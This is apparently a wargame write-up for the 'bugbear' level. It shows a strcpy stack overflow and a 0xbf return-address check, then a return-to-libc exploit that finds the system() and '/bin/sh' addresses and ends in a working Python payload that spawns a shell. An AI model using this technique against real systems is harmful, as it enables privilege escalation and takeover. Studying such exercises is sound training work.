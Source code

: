 # Vulnerability
```c
char buffer[40];
strcpy(buffer, argv[1]);
```
This program uses strcpy function that does not check boundary.

I will overwrite SFP & RET address but there is a protection code:
```c
if(argv[1][47] == '\xbf')
	{
		printf("stack betrayed you!!\n");
		exit(0);
	}
```

# Exploitation
The problem's hint is RTL(Return To Library).

I will use Library Function in RET address such as system(), execve(), etc ..

The parameter will be:
```
--------------------------------------------------------------------------
| buffer | SFP | RET(system) | AAAA(system's ret) | ????(system's param) |
--------------------------------------------------------------------------
```
I got system's address in gdb:

```
(gdb) p system
$1 = {<text variable, no debug info>} 0x40058ae0 <__libc_system>
(gdb) 
```

I will pass system's param as "/bin/sh"'s address.

To find "/bin/sh"'s address, I made a simple C code:
```c
#include <stdio.h>
int main(void) {
	long shell=0x40058ae0;
	while(memcmp((void*)shell, "/bin/sh", 8)) {
		shell++;
	}
	printf("Address of /bin/sh: 0x%x\n", shell);
}
```
This program finds "/bin/sh"'s address based on system's address.

The "/bin/sh"'s address is:
```
[darkknight@localhost darkknight]$ gcc -o ./getsh ./getsh.c 
[darkknight@localhost darkknight]$ 
[darkknight@localhost darkknight]$ ./getsh 
Address of /bin/sh: 0x400fbff9
```

# Payload
```python
import os

payload = ""
payload = payload + "A"*40
payload = payload + "B"*4 #SFP
payload = payload + "\xe0\x8a\x05\x40" # system's address
payload = payload + "A"*4 # system's ret
payload = payload + "\xf9\xbf\x0f\x40" # /bin/sh's address

os.execv("/home/darkknight/bugbear", ["", payload])
```
